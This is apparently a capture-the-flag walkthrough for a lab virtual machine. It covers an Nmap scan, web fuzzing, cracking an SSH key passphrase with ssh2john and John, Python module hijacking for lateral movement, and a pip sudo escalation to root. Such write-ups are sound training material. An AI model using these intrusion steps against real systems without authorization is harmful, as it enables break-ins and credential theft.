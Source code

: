 # Nmap

```bash
# Nmap 7.94SVN scan initiated Mon Nov 25 13:25:03 2024 as: /usr/lib/nmap/nmap --privileged -p 22,80 -sCV -A -T4 -oN scans/service-scan -v 192.168.56.104
Nmap scan report for 192.168.56.104
Host is up (0.00076s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 ed:ea:d9:d3:af:19:9c:8e:4e:0f:31:db:f2:5d:12:79 (RSA)
|   256 bf:9f:a9:93:c5:87:21:a3:6b:6f:9e:e6:87:61:f5:19 (ECDSA)
|_  256 ac:18:ec:cc:35:c0:51:f5:6f:47:74:c3:01:95:b4:0f (ED25519)
80/tcp open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesnt have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
| http-robots.txt: 1 disallowed entry 
|_/~myfiles
MAC Address: 08:00:27:5D:B9:73 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Uptime guess: 12.899 days (since Tue Nov 12 15:50:04 2024)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.76 ms 192.168.56.104

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 25 13:25:12 2024 -- 1 IP address (1 host up) scanned in 8.89 seconds
```

### Services

**HTTP (80):**
	[http://192.168.56.104/](http://192.168.56.104/) Comments in the source code available
	[http://192.168.56.104/robots.txt](http://192.168.56.104/robots.txt) - ~myfiles
	[http://192.168.56.104/~myfiles/](http://192.168.56.104/~myfiles/) - Fake 404 Error code. Comments in the source code available
	[http://192.168.56.104/~secret/](http://192.168.56.104/~secret/) - Found by fuzzing with BurpSuite
	[http://192.168.56.104/~secret/.mysecret.txt](http://192.168.56.104/~secret/.mysecret.txt) - Found by fuzzing with BurpSuite
	        With [https://www.dcode.fr/identificador-cifrado](https://www.dcode.fr/identificador-cifrado) we found that it is base58, decoding it we get a ssh private key, which we have to crack it with ssh2john and johntheripper
	            - Commands to crack passphrase: (P@55w0rd!)
	                `ssh2john private-key > private-key.hash`
	                `john private-key.hash --wordlist=/usr/share/wordlists/fasttrack.txt`

**SSH:**
    - `ssh -i private-key icex64@192.168.56.104` (Enter cracked passphrase)

### Lateral movement

With `sudo -l` we find that we can execute script `/home/arsene/heist.py` as arsene. This script import python module `webbrowser` which is located in `/usr/lib/python3.9/webbrowser.py` and after check we confirm that we have write access, so we can perform module hijacking:

![[Pasted image 20241126111537.png]]

Launch the script and get a shell as arsene:
	`sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py`

### Privilege escalation

With `sudo -l` as arsene we find that we can execute pip as sudo. With GTFOBins we found **[this](https://gtfobins.github.io/gtfobins/pip/#sudo)** escalation method.

And we are root